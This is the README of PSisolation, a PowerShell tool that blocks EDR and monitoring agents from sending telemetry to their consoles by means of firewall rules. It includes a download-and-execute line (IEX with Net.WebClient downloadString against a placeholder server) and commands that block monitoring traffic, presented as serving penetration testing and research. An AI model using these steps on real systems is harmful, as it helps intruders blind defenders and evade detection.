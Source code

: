 # PSisolation

## Overview
PS-Isolation is a specialized tool designed to prevent EDR (Endpoint Detection and Response) and monitoring processes from communicating with their consoles. By leveraging Windows Defender Firewall rules and PowerShell automation, this script dynamically identifies and blocks network traffic for specific monitoring agents and processes.

## Key Features
- Automated Detection: Identifies EDR and monitoring tools running on the system based on predefined and customizable keywords.
- Dynamic Firewall Rules: Implements outbound traffic filtering for detected processes, preventing telemetry from reaching monitoring consoles.
- Customizable rule : Choose to block a specific processes.
- Stealth : Operates entirely in PowerShell, which you can import in memory without touching disk, ensuring minimal system footprint.
- Simple Cleanup: Quickly revert all custom rules and restore normal operations with a single command.

## Use Cases
- Isolate specific processes or tools to prevent them from reporting telemetry during engagements.
- Test EDR visibility and response.
- Enumerate potential exclusions on system without triggering alerts

## Important Notes
- Educational Purposes Only: This tool is intended for research, penetration testing engagements, and educational purposes        
- Requires Administrative Privileges to create rules

## Getting Started

- Import the script in memory from a remote HTTP server 

````
IEX(New-Object Net.WebClient).downloadString('http://xxx.xxx.xxx/PSisolation.ps1')
````

- Block outgoing traffic by running directly

````
Block-MonitoringProc
````
https://github.com/user-attachments/assets/a8b62fc7-5132-477b-9489-c569c41bcc78

- or a specific process you want with : 

````
Block-SpecificProcessTraffic
````

- When you're done, run this to remove all rules created by the tool :

````
Unblock-AllFilters
````


https://github.com/user-attachments/assets/a647de1e-9314-4d73-886c-ba8f4cbb7356

